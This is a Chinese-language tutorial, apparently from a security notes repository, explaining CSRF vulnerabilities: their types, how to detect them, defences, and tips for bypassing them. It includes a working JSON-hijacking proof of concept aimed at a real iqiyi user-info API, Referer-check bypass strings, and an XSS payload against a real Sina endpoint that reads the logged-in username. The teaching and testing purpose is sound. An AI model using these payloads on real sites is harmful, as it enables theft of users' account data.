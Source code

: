 
## 一、跨站请求伪造漏洞
跨站请求伪造漏洞（Cross Site Request Forgery，常简写作CSRF，也有写作XSRF的）是指攻击者可以在第三方站点制造HTTP请求并以用户在目标站点的登录态发送到目标站点，而目标站点的应用程序未校验请求来源。  

## 二、漏洞的分类
CSRF漏洞从利用形式来看，分为“写”和“写-读”两类。  
#### 2.1 CSRF写——更改设置       
CSRF“写”是指攻击载体只需要发送HTTP请求的情况。   
这一类特征是Web应用程序在有登录态的情况下更改数据，是第三方站点只需要发送请求而不需要获得返回结果。如更改个人资料、发表文章、留言等，最简单的就是利用JavaScript 自动提交表单，很容易造成蠕虫攻击，如下所示：  

![csrfch](../pictures/csrfch.png)  

假设这个页面在 http://hacker.com 上，第一个点击打开页面的人自动发了一条心情，他的好友看到了进而又点击链接进入了恶意站点，导致不断地传播开来，造成蠕虫。   

如果是 get 请求可以触发的csrf，利用方式可以在一个正常的网站上插入一张图片（src 即存在漏洞cgi 地址），当别人浏览到这个页面时就会触发请求。  

#### 2.2 CSRF写和读——获取敏感信息
CSRF“写-读”是指攻击载体不仅要先发送HTTP请求，还要获取Web应用程序对该请求的返回内容的情况。  
这一类特征是Web应用程序在有登录态的情况下会输出敏感信息，第三方站点需要发送请求并还要获得返回结果，比如 JSON Hijacking和flash装载网页。  
JSON（JavaScript Object Notation）是一种轻量的数据交换格式，特别是在跨域交换数据的时候经常用到。一个简单的 jsonHijacking 利用 exp 如下：  
``` html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
    "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">
<head>
  <title></title>
</head>

<body>
  <script type="text/javascript">
            var aaa="";
            function testa(str)
            {
              aaa=str;
            }
  </script>
  
  <script src="http://passport.iqiyi.com/apis/user/info.action?authcookie=&fields=
      userinfo%2Cqiyi_vip%2Cpps%2Caccounts%2Ctokens%2Cv&antiCsrf=&callback=testa" type="text/javascript">

  </script>
 
  <script type="text/javascript">
    alert(JSON.stringify(aaa));  //可以进一步把数据发往攻击者的站点
  </script>
  
</body>
</html>
```
另外一个地方是Flash。  
Flash的API 支持加载网页内容，如ActionScript 3.0提供的URLLoader类。但Flash装载站点内容必须得到站点根目录下的策略配置文件  crossdomain.xml的支持。如以下代码去读取www.example.com的返回内容（当然需要 http://www.example.com/crossdomain.xml 支持  flash所在域请求）：  
``` actionScript
import flash.net.*;
var myloader = new URLLoader(new URLRequest("http://www.example.com/"));
myloader.addEventListener(Event.COMPLETE,test);
myloader.load();
function test(event:Event){
var ResponseText:String = myloader.data;
text1.text = ResponseText;
stop();
}
```
如果该网页在用户登录态下会返回敏感信息，则这个flash可以获取到。  

## 三、如何检测漏洞
1. 抓包重放  
点击某功能后，使用抓包工具抓包重放，看正常返回值  
2. 去除refer/token  
去除refer/token参数，看返回值是否正常  
3. 验证  
如果正常，本地构造表单测试能否复现   
 
jsonhijacking 形式的也许可以尝试下自动测试，比如cookie 中带uin 字段的，带上refer/去掉refer 都请求一次接口，看返回内容中是否都包含了uin 的值，或者若是根据其他参数key 如 g_tk 来做限制的，可以把g_tk 值去掉，看请求是否也返回敏感信息了。  

## 四、如何防御
1. 检查 http referer 是否是同域  
如果网站有客户端，需要对此开绿灯，可能是个隐患。  
注意：ajax 跨域发起请求时是不可以添加 cookie、user-agent、referer、 x_forward_for 等http 头的，可以看下w3c给出的一份头部黑名单。否则 referer 校验就无效了。  
此外在某些情况下，浏览器也不会发送referer，比如从https 跳转到 http；flash 的请求等。  

2. 限制 cookie 的生命周期（减少发生概率）

3. 使用一次性 token
token 是一段随机的数字字母值，经常出现在表单的隐藏项中。  

4. 使用验证码（降低用户体验）  
当同域页面上有xss 漏洞时，可以通过 ajax 获取到其他页面的 token；    
token 如果出现在 get 参数中，也容易通过 refer的方式泄露；    
此时只能通过验证码来防范csrf 了。    

5. 如果是会修改内容的请求，请使用post 请求，且在满足post 内容格式要求的情况下使用`Content-Type:application/json`，而当不同源客户端添加 `Content-Type`为 `application/json` 的时候浏览器会进行预检（发送OPTIONS请求），之后请求就会失败（服务器不要在 `Access-Control-Allow-Headers` 中加入 `Content-type`），而不会进一步发起真实的post请求，否则可能造成其实数据已经被post请求修改，虽然服务器返回响应时被浏览器拦截了。    

## 五、测试tips 分享
绕过csrf 防御技巧：  
1. refer 验证绕过：只验证了是否存在关键词，如  
`Referer:http://t.qq.com `可以使用  
`Referer:http://t.qq.com.yourdomain.com`  
`Referer:http://yourdomain.com/t.qq.com/`  
`Referer:http://yourdomain.com?r=http://t.qq.com`  
注：从https域下post数据到http域的时候，浏览器不带Referer；用 iframe 加载时也不带referer；比如本地html，还有某些伪协议远程调用时是没有referer的；   
2. 有时候存在token, 服务器端不一定做了验证，可以直接把 token 参数删除看是否能返回正常值；  
3. 将 post 请求换成对应的 get 请求，也许也可以绕过 refer 限制；  
4. 找到一个满足refer要求的站点的url 跳转漏洞绕过refer 校验。
5. 利用xss 漏洞绕过refer 校验，如下payload 绕过了 data_ajax.php 的refer 校验  
```
http://interface.sina.cn/yuedu/index_feed.d.json?page=1&act=more&jsoncallback=<script>function a(msg){alert(msg.data.login_info.username);}</script><script src="http://xx.sina.com.cn/data_ajax.php?_a=top_data&rnd=16721&callback=a"></script>
```
**注意**：
1. 从页面`document.referer` 获取的是当前页面的上一跳，而发起http 请求带的referer头 是指的当前发起请求时所在的页面
2. 从页面`document.cookie` 获取的是当前域domain下的cookie（httponly属性的不行），如果发起跨域请求此时带的cookie头部，指的是目标域下的cookie，两者不相同
3. 从浏览器页面发起的请求，自动带上referer和origin等头部（默认值），但如果抓包拦截是可以修改的（无法作为自动化攻击手段）；直接从服务器后台发起的请求，更是可以任意添加头部和值，且返回内容直接给到服务器后台，故也不存在浏览器的跨域策略限制等。

## Reference
[OPTIONS 请求预检](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Access_control_CORS)    
